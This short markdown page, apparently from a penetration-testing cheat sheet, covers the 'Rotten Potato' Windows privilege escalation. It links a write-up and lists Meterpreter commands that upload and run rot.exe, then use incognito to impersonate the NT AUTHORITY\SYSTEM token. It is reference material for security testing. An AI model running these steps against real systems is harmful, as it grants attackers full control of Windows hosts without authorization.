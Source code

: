## Rotten Potato

https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

Get a meterpreter and upload the rot.exe

* getuid
* getprivs
* use incognito
* list\_tokens -u
* cd c:\\temp\\
* execute -Hc -f ./rot.exe
* impersonate\_token "NT AUTHORITY\\SYSTEM"




